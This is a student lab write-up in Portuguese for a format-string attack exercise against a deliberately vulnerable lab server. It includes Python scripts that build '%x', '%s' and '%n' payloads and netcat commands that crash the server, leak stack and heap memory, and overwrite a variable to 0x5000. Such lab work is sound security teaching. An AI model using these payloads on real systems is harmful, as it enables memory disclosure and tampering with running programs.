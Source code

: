 # Semana 7 - Format String Attack

## Task 1 - Crashing the Program

Depois de dar setup deste lab e com o servidor pronto para receber uma mensagem, através do docker, temos como missão crashar o servidor.<br>
Para tal como é referido no guião, o servidor aguenta até 1500 bytes de dados, portanto, para o servidor crashar, precisamos de escrever mais de 1500 bytes de dados para o servidor.<br>
Para fazer isso criamos um ficheiro `badfile` que irá conter a mensagem para enviar para o servidor, e utilizamos o `build_string.py` que contém um script em python para escrever a mensagem para o ficheiro `badfile`.

O `build_string.py` contém o seguinte código:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1501
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Com o ficheiro pronto para ser enviado, basta enviar a mensagem para o servidor, através do seguinte comando:

`cat badfile | nc 10.9.0.5 9090`

![image](Semana_7/images/image.png)

Com isto, o servidor não respondeu com **(^\_^)(^\_^)  Returned properly (^\_^)(^\_^)**, o que significa que crashou.

## Task 2 - Printing Out the Server Program’s Memory

### Task 2.A  - Stack Data

Para realizar esta task, alteramos o ficheiro `build_string.py` para escrever um inteiro de 4 bytes e 64 %x. O ficheiro ficou assim:

```py
#!/usr/bin/python3
import sys

N = 1000
content = bytearray(0x0 for i in range(N))


number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')


s = "%.8x"*64

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

Agora, basta correr o `build_string.py` para criar o `badfile` e rodar o comando:

`cat badfile | nc 10.9.0.5 9090`

E obtemos a seguinte resposta:

![image](Semana_7/images/image2.png)

Como podemos observar, o nosso inteiro **0xbfffeeee** foi printado no terminal após 64 bytes.

### Task 2.B - Heap Data

No server printout, é referido que a mensagem secreta está no endereço `0x080b4008` portanto temos que alterar o ficheiro `build_string.py` para ficar desta forma:

```py
#!/usr/bin/python3
import sys

N = 1000
content = bytearray(0x0 for i in range(N))

number  =  0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%s"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt


with open('badfile', 'wb') as f:
  f.write(content)
```

Alteramos o input para o servidor ler o que está no endereço `0x080b4008`, escrever as próximas 63 posições e finalmente escrever em formato string o que estava no endereço dado no input.

![image](Semana_7/images/image3.png)

Concluímos que a mensagem secreta é **A secret message**

## Task 3 - Modifying the Server Program’s Memory

### Task 3.A - Change the value to a different value

Para agora mudar a variável `target`, que está no endereço `0x080e5068` podemos fazer o que fizemos na task passada, mas mudar o endereço passado como input e, em vez de adicionar um `%s` ao final, podemos adicionar um `%n`, que vai escrever o número de caracteres lidos no endereço passado no input.<br>

O `build_string.py` ficou assim:

```py
#!/usr/bin/python3
import sys

N = 1000
content = bytearray(0x0 for i in range(N))

number  =  0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt


with open('badfile', 'wb') as f:
  f.write(content)
```

![image](Semana_7/images/image4.png)

Como podemos observar, a variável `target` ficou com o valor **0x000001fc**, e inicialmente era **11223344**

## Task 3.B - Change the value to 0x5000

Agora, como queremos mudar a variável `target` para `0x5000` podemos usar a mesma approach que usamos na task anterior, mas o `%n` terá que escrever o valor `0x5000`, ou seja, terá que ler 20480 bytes, 0x5000 em decimal.<br>
Para fazer isso, podemos utilizar a notação `.NX`, onde **N** é 20480 - 4 - 63*8 = 19980.<br>

Portanto s fica: `"%.19980x" + "%.8x"*62 + "%n"`<br>

Quando enviamos a mensagem ao servidor observamos o seguinte:

![image](Semana_7/images/image5.png)

Como podemos ver, a variável `target` ficou com valor **0x5000**.
